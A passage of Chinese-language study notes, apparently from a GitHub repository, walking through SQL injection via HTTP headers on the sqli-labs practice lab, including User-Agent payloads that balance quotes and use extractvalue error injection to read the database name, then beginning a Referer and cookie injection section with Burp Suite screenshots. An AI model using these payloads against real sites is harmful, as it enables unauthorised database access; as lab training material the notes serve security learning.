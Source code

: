 ```
可以发现是'闭合。



但http头注入大多数情况下不能用注释符。

那么就考虑补全单引号：

```
values(' ' or '1'='1  ','127.0.0.1','admin');
```



```
' or '1'='1  

insert into 'security'.'uagents'('uagent','ip_address','username') values(' ' or '1'='1  ','127.0.0.1','admin');
```



```
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) a '1'='1

insert into 'security'.'uagents'('uagent','ip_address','username') values(' ' and extractvalue(1,concat(0x7e,(select database()),0x7e)) or '1'='1  ','127.0.0.1','admin');
```






## 08 referer、cookie注入

### 靶场less19

使用burpsuite

简单测试一下：

![image-20220114224824240](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114224824240.png)

![image-20220114224937766](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114224937766.png)

### referer

referer= 来路信息（从哪个网站过来的）





尝试`\`：

![image-20220114225002465](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114225002465.png)



```
